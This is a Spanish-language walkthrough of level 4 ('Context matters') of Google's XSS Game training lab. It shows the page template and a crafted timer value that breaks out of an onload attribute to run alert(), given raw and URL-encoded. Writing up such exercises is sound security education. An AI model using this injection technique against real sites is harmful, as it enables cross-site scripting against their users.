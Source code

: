 #[4/6]  Level 4: Context matters

##Mission Description

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

##Mission Objective

Inject a script to pop up a JavaScript alert() in the application.

## Write Up Iker 

Esta prueba se complica un poco más que la anterior. Tenemos un **timer** el cual nos indica que saltará una alerta de Time-up una vez que pasen los segundos que hayamos puesto en el campo de texto.
Esto no puede dar una pista que podemos utilizarlo a nuestro favor. Nos dice que saltará una alerta cuando se termine el tiempo, por lo tanto tenemos que encontrar el código que hace saltar la alerta.
Encontramos el siguiente código en timer.html

```html
 <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
```

Nos fijamos en la parte donde dice ```html <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" /> ``` el cual ejecuta el script que está más arriba pasándole como parámetro el número de segundos que hemos introducido para realizar la cuenta atrás.
Teniendo esto en cuenta, podemos jugar con el vamos que introducimos al campo **timer** para que ejecute lo que queremos.

Tenemos que hacer que el valor de timer esto: 
```html 
onload="startTimer('{{ timer }}');"
``` 
sea igual a esto esto:
```html 
');alert('Está PATXIIIIIIII?!');var temp=('
``` 
para que al final quede todo como esta consulta:

```html 
onload="startTimer('');alert('Está PATXIIIIIIII?!');var temp=('');"
``` 
Utilizamos la variable var temp para cerrar el último paréntesis del comando ```html onload="startTimer('{{ timer }}');"``` y no de ningún error.

Probamos a introducir el código ```html ');alert('Está PATXIIIIIIII?!');var temp=('```en el campo timer para ejecutar la consulta quedando de la siguiente manera:
Pero nos salta un error de sintaxis con los **;**. Probamos a cambiar caracter **;** por su valor en html **%3B** y modificamos la consulta:

Probamos de nuevo introduciendolo en el campo de timer y ejecutamos:

```html
https://xss-game.appspot.com/level4/frame?timer=')%3Balert('Esta patxiiiiiii?')%3Bvar temp=('
```

Nos carga el timer y nos muestra el mensaje de alerta que nos pasa al siguiente nivel






